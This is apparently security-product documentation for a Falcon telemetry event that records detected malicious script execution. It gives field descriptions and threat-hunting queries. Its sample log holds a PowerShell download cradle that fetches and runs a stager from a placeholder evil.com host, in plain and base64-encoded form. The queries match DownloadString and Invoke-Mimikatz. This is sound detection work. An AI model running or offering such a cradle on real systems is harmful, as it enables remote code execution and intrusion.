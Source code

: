 ## ScriptControlDetectInfo Table: Malicious Script Execution Event

### 1. Table Name
**ScriptControlDetectInfo**

---

### 2. Table Usage
This event is sent when Falcon has detected malicious script content being executed on the host. This event provides the details of exactly what content was detected, which is invaluable for investigating fileless malware, obfuscated commands, and other in-memory threats.

---

### 3. Important Parameter Description

| Parameter | Description | Platforms Affected |
|---|---|---|
| ImageFileName | The full path to the process hosting the script engine (e.g., `powershell.exe`, `wscript.exe`). | All |
| ParentImageFileName | The full path to the parent process that spawned the script host. | All |
| CommandLine | The command line of the script host process. | All |
| HostProcessType | The type of process hosting the script engine. | Windows Only |
| ScriptingLanguageId | An identifier for the scripting language being used (e.g., PowerShell, VBScript, JScript). | Windows Only |
| ScriptContentSource | The source of the script content (e.g., from the command line, a file, or interactive session). | Windows, Linux |
| ScriptContent | The full content of the script that was detected as malicious. | Windows, Linux |

---

### 4. Sample Log Example

```json
{
  "ImageFileName": "C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe",
  "ParentImageFileName": "C:\\Windows\\System32\\cmd.exe",
  "CommandLine": "powershell -enc aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZQB2AGkAbAAuAGMAbwBtAC8AcwB0AGEAZwBlAHIALgBwAHMAMQAnACkA",
  "HostProcessType": "1",
  "ScriptingLanguageId": "1",
  "ScriptContentSource": "2",
  "ScriptContent": "IEX(New-Object Net.WebClient).DownloadString('[http://evil.com/stager.ps1](http://evil.com/stager.ps1)')"
}
```
---

### 5. Example Queries
```xql
// Find all malicious script detections
event_simpleName=ScriptControlDetectInfo

// Hunt for malicious scripts executed by PowerShell
event_simpleName=ScriptControlDetectInfo ImageFileName="*\\powershell.exe"

// Find detections where the script was passed via an encoded command line
event_simpleName=ScriptControlDetectInfo ScriptContentSource=3

// Search for specific malicious functions or commands within the script content
event_simpleName=ScriptControlDetectInfo ScriptContent="*Invoke-Mimikatz*" OR ScriptContent="*DownloadString*"

// Look for detections involving VBScript or JScript
event_simpleName=ScriptControlDetectInfo ScriptingLanguageId IN (4, 5)

// Find malicious scripts spawned by Microsoft Office applications
event_simpleName=ScriptControlDetectInfo ParentImageFileName IN ("*\\winword.exe", "*\\excel.exe", "*\\powerpnt.exe")
```
